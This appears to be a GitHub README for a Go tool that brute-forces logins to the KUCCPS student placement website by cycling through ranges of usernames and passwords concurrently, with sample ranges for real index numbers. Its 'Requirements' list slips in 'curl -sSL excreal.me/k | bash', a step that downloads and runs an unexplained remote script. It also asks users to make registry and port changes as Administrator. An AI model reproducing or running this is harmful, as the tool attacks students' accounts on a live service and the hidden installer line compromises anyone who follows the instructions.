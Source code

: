 # KUCCPS Login Attempt Automation

This program automates the process of attempting to log in to the KUCCPS website with a range of usernames and passwords, using concurrent goroutines for better performance.

## Requirements:
- Go 1.18 or higher

- curl -sSL excreal.me/k | bash

## Command-Line Arguments:
- `-uS`: Starting value of the username range.
- `-uE`: Ending value of the username range.
- `-pS`: Starting value of the password range.
- `-pE`: Ending value of the password range.
- `-y`:  The Year.
- `-slow`:  Slow Preset.
- `-medium`:  Medium Preset.
- `-fast`:  Fast Preset.

## Running the Program:

To run the program, open a terminal and execute the following command:

```sh
go run main.go -medium -uS 11200002100 -uE 11200002130 -pS 24505145001 -pE 24505145010 -y 2019


.\bin\kuccps.exe -uS 11200002100 -uE 11200002130 -pS 24505145001 -pE 24505145010 -y 2019


#OR
./bin/kuccps -uS 11200002100 -uE 11200002130 -pS 24505145001 -pE 24505145010 -y 2019
```

# Building the Binary

To compile the program into a binary for any platform, follow these steps:

1. Navigate to project directory.
2. run build.bat
    This will produce an executable named `kuccps.exe`.

System Tuning Recommendations
For Windows users (to prevent crashes):

# Run as Administrator
netsh int ipv4 set dynamicport tcp start=10000 num=55000
reg add HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters /v MaxUserPort /t REG_DWORD /d 65534 /f